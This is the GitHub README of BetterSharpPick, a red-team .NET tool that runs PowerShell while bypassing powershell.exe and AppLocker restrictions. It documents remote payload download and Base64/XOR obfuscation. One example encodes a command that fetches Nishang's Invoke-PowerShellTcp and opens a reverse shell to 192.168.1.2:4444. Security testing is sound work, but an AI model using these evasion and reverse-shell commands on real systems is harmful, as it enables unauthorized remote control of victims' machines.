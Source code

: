 # BetterSharpPick

BetterSharpPick is a .NET tool that runs PowerShell code **without calling `powershell.exe` directly**. It’s intended for legitimate security testing and blue/red team workflows in environments with restrictive policies (e.g., AppLocker).

> Legal & Ethical Use
> 
> 
> Use only on systems you own or are explicitly authorized to test. Unauthorized use is illegal. You are responsible for complying with all laws and policies.
> 

## Features

- Execute payloads from a **local file** or **URL** (`path`)
- Execute **inline PowerShell** (`c`)
- **Scoped Base64 decoding** with `b64` (applies only to the next option you put it in front of)
- **Single-byte XOR decoding for file/URL payloads only** (`xor <0-255>`)
- Optional TLS protocol configuration

## Build

```bash
dotnet build -c Release
# Use the produced exe (e.g., bin/Release/.../BetterSharpPick.exe)
```

## Usage

```bash
BetterSharpPick.exe [options]
```

### Options

- `path <path|url>`
    
    Path or URL of the PowerShell payload. If `-xor` is provided, XOR decoding is applied **only** to this file/URL content.
    
- `c <command>`
    
    Inline PowerShell code to execute.
    
- `-arg <string>`
    
    Argument(s) to pass through to the payload/command. Repeatable.
    
- `b64` *(scoped)*
    
    Indicates that the **next option’s value** is Base64-encoded and must be decoded.
    
    Put `-b64` **immediately before** each option whose value is Base64.
    
- `xor <0-255>`
    
    Single decimal byte key. **Applies only to `-path` payloads** (files/URLs). **Does not** apply to `-c` or `-arg`.

- `raw`
    
    Treat -path payload as raw (no Base64/XOR).

### Decoding rules

- **Scope of `b64`:**
    - `b64` affects **only the option right after it** (and that option’s single value).
    
    If you need multiple values decoded, repeat `-b64` before each one.
    
- **Scope of `xor`:**
    - `xor` affects **only** the payload read via `path` (file/URL). It does **not** touch `c` or `-arg`.

- **Scope of `raw`:**
    - `raw` guarantees the -path content is treated as raw; no Base64/XOR is applied.

- **Order when both apply to `path`:**
    
    If you place `-b64` **and** also supply `-xor`, decoding proceeds as: **Base64 decode → XOR decode** of the payload bytes.
    

## Examples (safe, illustrative)

Run a local payload:

```bash
BetterSharpPick.exe -path .\script.ps1
```

Run a payload from URL:

```bash
BetterSharpPick.exe -path https://example.com/payload.ps1
```

Run an inline command:

```bash
BetterSharpPick.exe -c "Get-Process | Select-Object -First 5"
```

Base64-encoded **inline** command (scope `-b64` to `-c`):

```bash
# "V3JpdGUtSG9zdCAnSGVsbG8gV29ybGQn" => Write-Host 'Hello World'
BetterSharpPick.exe -b64 -c V3JpdGUtSG9zdCAnSGVsbG8gV29ybGQn
```

Base64-encoded **argument** (scope `-b64` to each `-arg` you want decoded):

```bash
# -path "https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1"
# -arg "Invoke-PowerShellTcp -Reverse -IPAddress 192.168.1.2 -Port 4444"
BetterSharpPick.exe -b64 -path aHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL3NhbXJhdGFzaG9rL25pc2hhbmcvbWFzdGVyL1NoZWxscy9JbnZva2UtUG93ZXJTaGVsbFRjcC5wczE= -arg SW52b2tlLVBvd2VyU2hlbGxUY3AgLVJldmVyc2UgLUlQQWRkcmVzcyAxOTIuMTY4LjEuMiAtUG9ydCA0NDQ0 -raw
```

Base64 on the **payload** + XOR on the **payload** (XOR applies only to `-path`):

```bash
# -b64 only scopes to -path; XOR applies to the decoded file/URL payload
BetterSharpPick.exe -xor 140 -b64 -path aHR0cHM6Ly9leGFtcGxlLmNvbS9wYXlsb2FkLnBzMQ==
```

No Base64 anywhere if `-b64` is not placed before an option:

```bash
BetterSharpPick.exe -path .\plain.ps1 -arg simple
```

## Built-in Help (CLI)

```
USAGE:
  BetterSharpPick [-xor <0-255>] [-path <file-or-url>] [-c <text>] [-arg <string>] [-b64] [-raw]

DESCRIPTION:
  -path <value>   : Payload file path or URL.
  -c <value>      : Inline PowerShell code.
  -arg <string>  : Argument to pass (repeatable).

  -b64            : Scoped base64. Applies ONLY to the NEXT option’s value.
                    Put -b64 directly before -path, -c, or -arg if that value is base64-encoded.
                    If -b64 is not used in front of an option, no base64 is expected for that option.

  -xor <0-255>    : Single decimal byte key. Applies ONLY to payloads from -path (file/URL).
                    Does NOT apply to -c or -arg.
                    If used together with -b64 (scoped to -path), decoding order is: Base64 → XOR.
  
  -raw     : Affects only the payload content read via -path.
                    Treat the -path payload as RAW text; Do NOT apply Base64/XOR.
                    Does not affect -c or -arg.

EXAMPLES:
  BetterSharpPick -path https://example.com/file.ps1
  BetterSharpPick -b64 -c V3JpdGUtSG9zdCAnSGVsbG8n
  BetterSharpPick -b64 -arg UGFyYW0x -b64 -arg UGFyYW0y
  BetterSharpPick -xor 140 -b64 -path aHR0cHM6Ly9leGFtcGxlLmNvbS9maWxlLnBzMQ==
```

## License

Released under the **BSD 3-Clause License**.

## Credits

Inspired by and adapted from [TheKevinWang/SharpPick](https://github.com/TheKevinWang/SharpPick).
